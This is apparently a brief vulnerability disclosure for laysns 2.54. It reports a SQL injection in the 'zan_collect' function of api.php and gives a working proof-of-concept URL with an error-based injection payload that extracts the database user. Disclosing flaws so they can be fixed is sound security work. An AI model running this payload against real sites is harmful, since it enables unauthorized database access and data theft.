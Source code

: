 # laysns2.54_sqlInjection


The vulnerability is in application/index/api.php file, "zan_collect" function

 ![](1.png)
line 153 exist a sql methed, parameter $zan_collect will be the table name.


the parameter $zan_collect come from the array $data,we can control it.


![](2.png)
poc:
/index/api/zan_collect?id=1&type=1&zan_collect=comment where uid=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a)--+


success:
![](3.png)
